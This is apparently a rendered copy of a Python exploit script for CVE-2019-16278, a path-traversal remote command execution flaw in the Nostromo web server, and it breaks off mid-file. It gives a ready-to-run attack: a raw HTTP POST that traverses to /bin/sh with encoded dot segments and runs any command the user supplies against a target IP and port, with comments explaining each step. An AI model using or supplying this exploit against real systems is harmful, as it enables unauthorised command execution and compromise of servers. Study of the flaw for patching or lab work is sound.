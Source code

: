 ```python
 /     / /____/||\    \  \    |/|    |__ |___|/
|     | |____|/ \ \    \ |    | |       \
|     |  _____   \|     \|    | |     __/ __
|\     \|\    \   |\         /| |\    \  /  \
| \_____\|    |   | \_______/ | | \____\/    |
| |     /____/|    \ |     | /  | |    |____/|
 \|_____|    ||     \|_____|/    \|____|   | |
        |____|/                        |___|/



"""

help_menu = '\r\nUsage: cve2019-16278.py <Target_IP> <Target_Port> <Command>'

def connect(soc):
	# Defines an empty response
    response = ""
    try:
        while True:
			# Define 1024 bytes as the amount of bytes received by the socket.
			# Note: For best match with hardware and network realities, the value of bufsize should be a relatively small power of 2, for example, 4096. In this case is 2^10=1024,
            connection = soc.recv(1024)
			# If there's no connection then break (finish)
            if len(connection) == 0:
                break
			# If there is a connection, add it to the response variable
            response += connection
    # If it fails to receive a connection then pass (continue)
	except:
        pass
	# Return the response
    return response

def cve(target, port, cmd):
	# Defines a socket
    soc = socket.socket()
	# Connects to the target IP and PORT
    soc.connect((target, int(port)))
	# Defines the payload
    payload = 'POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\nContent-Length: 1\r\n\r\necho\necho\n{} 2>&1'.format(cmd)
	# Sends the payload to the target IP and PORT
    soc.send(payload)
	# Receive a connection
    receive = connect(soc)
	# Print the receive value
    print(receive)

if __name__ == "__main__":

	# Print the banner art
    print(art)

    try:
        target = sys.argv[1]
        port = sys.argv[2]
        cmd = sys.argv[3]
		
		# Try to execute this 3 arguments (Example:10.10.10.165 80 id)
        cve(target, port, cmd)

```